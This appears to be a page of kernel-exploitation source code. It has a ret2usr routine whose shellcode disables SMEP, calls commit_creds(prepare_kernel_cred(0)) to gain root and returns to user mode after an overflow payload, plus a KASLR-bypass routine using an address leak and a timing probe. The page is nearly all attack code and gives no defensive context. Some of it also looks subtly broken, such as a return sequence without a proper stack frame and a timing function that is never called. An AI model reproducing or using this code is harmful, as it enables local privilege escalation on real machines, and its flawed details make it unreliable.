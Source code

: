 ```python
# ret2usr exploitation
def ret2usr_exploit():
    # 1. Map executable page in userland
    shellcode_addr = mmap(0x1337000, 0x1000, 
                          PROT_READ | PROT_WRITE | PROT_EXEC,
                          MAP_PRIVATE | MAP_ANONYMOUS, -1, 0)
    
    # 2. Write privilege escalation shellcode
    shellcode = asm("""
        /* Disable SMEP if enabled */
        mov rax, cr4
        and rax, ~(1 << 20)
        mov cr4, rax
        
        /* Escalate privileges */
        mov rdi, 0
        call prepare_kernel_cred
        mov rdi, rax
        call commit_creds
        
        /* Return to userland */
        swapgs
        mov rax, 0x1337000
        iretq
    """)
    
    # 3. Trigger kernel vulnerability
    payload = b"A" * offset + p64(shellcode_addr)
    trigger_vuln(payload)
```

### KASLR Bypass

```python
def bypass_kaslr():
    # Method 1: Information leak
    kernel_text_leak = leak_kernel_address()
    kernel_base = kernel_text_leak & ~0xfff
    
    # Method 2: Prefetch side-channel
    def timing_attack():
        for candidate in range(0xffffffff80000000, 0xffffffffc0000000, 0x100000):
            start = time.time()
            try:
                # Attempt to access potential kernel address
                access_memory(candidate)
            except:
                pass
            timing = time.time() - start
            
            if timing < threshold:  # Fast access = valid mapping
                return candidate
    
    return kernel_base
```
